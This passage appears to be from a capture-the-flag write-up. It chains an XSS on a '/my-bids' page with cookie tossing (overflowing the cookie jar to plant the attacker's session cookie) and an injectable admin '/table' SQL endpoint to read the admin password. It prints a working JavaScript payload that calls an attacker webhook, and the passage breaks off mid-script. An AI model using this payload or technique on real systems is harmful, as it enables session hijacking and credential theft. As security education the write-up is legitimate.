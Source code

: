 What now? we have removed all cookies

Since our xss is on page `/my-bids`, We can after clearing all cookies set cookie to `/my-bids` path. You can learn more about cookie tossing on [synk blog](https://snyk.io/articles/hijacking-oauth-flows-via-cookie-tossing/).


After performing this we can directly read admin password using this admin endpoint 

```javascript
router.post("/table", isAdmin, async (req, res) => {
  const { tableName } = req.body;
  try {
    const query = `SELECT * FROM "${tableName}"`;

    if (query.includes(';')) {
      return res
        .status(400)
        .json({ success: false, message: "Multiple queries not allowed!" });
    }

    const results = await runReadOnlyQuery(query);
    res.json({ success: true, results });
  } catch (error) {
    console.error("Table Query Error:", error);
    res.status(500).json({
      success: false,
      message: "Error fetching table data.",
    });
  }
});
```

The final script will look like this

```javascript
const cookieJar = 300
cookiez = "connect.sid=[Session COOKIE]"
if (document.cookie == cookiez) {
  fetch('http://[attacker webhook]?begin=true')

  sendQuery();
  fetch('http://[attacker webhook]?begin=false')

}
else {
  for (let i = 0; i < cookieJar;i++){
    document.cookie = "cookie"+i+"=a; Secure"
  }

  for (let i = 0; i < cookieJar;i++){
    document.cookie = "cookie" + i + "=a; expires=Thu, 01 Jan 1970 00:00:01 GMT";
  }

  document.cookie = cookiez + ";path=/my-bids; expires=" + new Date(Date.now() + 24 * 60 * 60 * 1000).toUTCString();

}


async function sendQuery() {
  try {
    const response = await fetch("/table", {
          method: "POST",
          headers: {
            "Content-Type": "application/json",
          },
```